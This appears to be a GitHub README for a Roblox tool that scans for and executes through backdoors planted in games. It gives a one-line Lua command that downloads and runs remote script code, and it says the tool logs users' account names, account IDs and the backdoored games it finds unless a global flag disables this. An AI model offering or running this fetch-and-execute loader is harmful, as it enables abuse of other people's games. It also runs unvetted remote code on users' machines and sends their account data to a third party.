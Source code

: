 temporarily not working

# LALOL Hub Backdoor
Backdoor scanner (and executor) for roblox games

```lua
loadstring(game:HttpGet('https://raw.githubusercontent.com/Its-LALOL/LALOL-Hub/main/Backdoor-Scanner/script'))()
```

![](https://raw.githubusercontent.com/Its-LALOL/LALOL-Hub/main/Backdoor-Scanner/screenshot.png)

# Features
1. Fast 
2. Nice UI and UX
3. Works in all backdoored games

#
We logging the account name and account ID and the backdoor games. If u want disable logs add `_G.LALOL_Hub_Backdoor_Logs_Disabled=true` string before loadstring
